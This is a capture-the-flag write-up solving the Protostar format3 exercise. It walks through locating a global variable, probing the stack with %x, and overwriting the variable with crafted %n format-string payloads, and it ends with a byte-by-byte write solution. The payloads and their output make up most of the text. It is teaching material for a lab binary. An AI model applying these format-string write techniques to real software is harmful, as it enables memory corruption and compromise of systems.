 <h2>Goal</h2>
The goal here is a slight advancement from the next one. Same process, just different requirements for the value.  The goal is to overwrite target and make it equal to `0x01025544`.

```c
printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
```

<h2>Process</h2>

```bash
objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
```

Let's see where we can write to memory, let's just blindly try 100  addresses.
```bash
python -c 'print "AAAAAAAA"+"%x "*100' | ./format3
AAAAAAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 41414141 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 bfff000a b7fffbe8 e b7ea36e4 b7fe1afc f63d4e2e 0 3 b7fff8f8 0 0 1 
target is 00000000 :(
```
Ok great looks like we have it fairly early in, counting the amount of addresses, we get 12.


Using 13 too confirm, it is correct.
```bash
python -c 'print "AAAAAAAA"+"%x "*12' | ./format3
AAAAAAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 41414141
target is 00000000 :(
```

Next let's put in our memory address for `target` and replace a `%x` with a `%n`
```bash
python -c 'print "\xf4\x96\x04\x08"+"%x "*11+"%n"' | ./format3
��0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 
target is 0000004c :(
```


**Note: A slight warning this is how I figured it out the first time around, not reading any further on Format strings from the last format2 challenge. This was is pretty hackish and not reliable.  There are great write up explaining two-byte and four-byte writing. I will also provide the final solution using the proper technique.**


Ok let's put in some padding like last time and start experimenting. 


```bash
python -c 'print "\xf4\x96\x04\x08"+"%100x "*11+"%n"' | ./format3
target is 0000045b :(
```

Not nearly large enough, lets add some more 0's.

```bash
python -c 'print "\xf4\x96\x04\x08"+"%1000000x "*11+"%n"' | ./format3
target is 00a7d8cf :(
```
Closer, but still off. Adding another Zero push we way off and took a long time to execute. After changing the starting value from 1 to a few different numbers 2 got me close.  Now `014fb18f` is greater than the required `01025544`, but its significantly closer. Trying `1500000` got me really close.

```bash
python -c 'print "\xf4\x96\x04\x08"+"%2000000x "*11+"%n"' | ./format3
target is 014fb18f :(
```


After experimenting I eventually got this:
```bash
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08"+"%1539100x"*11+"%n"' | ./format3

target is 01025538 :(
```
Adding a 1 to the end of `"%1539100x"` pushed me over the value, this means this wouldnt not work.  I would have to write out each of the `"%x"` and start over.  This is because we are multiplying the spacing everytime by 11, so an increment of 4, to get from 5538 to 5544 wouldn't be achievable.  After a similar process with `python -c 'print "\xf4\x96\x04\x08"+"%10000000x%x%x%x%x%x%x%x%x%x%x"+"%n"' | ./format3` I eventually got the correct value.  



<h2>Solution</h2>

This ended up working for me.
```bash
python -c 'print "\xf4\x96\x04\x08"+"%16930052x%x%x%x%x%x%x%x%x%x%x"+"%n"' | ./format3
0bffff5d0b7fd7ff400bffff7d8804849dbffff5d0200b7fd8420bffff614
you have modified the target :)
```

The proper way to do this is like so: 

```bash
python -c 'print "\xf4\x96\x04\x08"+"\xf5\x96\x04\x08"+"\xf6\x96\x04\x08"+ "%56x%12$n%17x%13$n%173x%14$n"' | ./format3
������                                                       0         bffff5d0                                                                                                                                                                     b7fd7ff4
you have modified the target :)

```


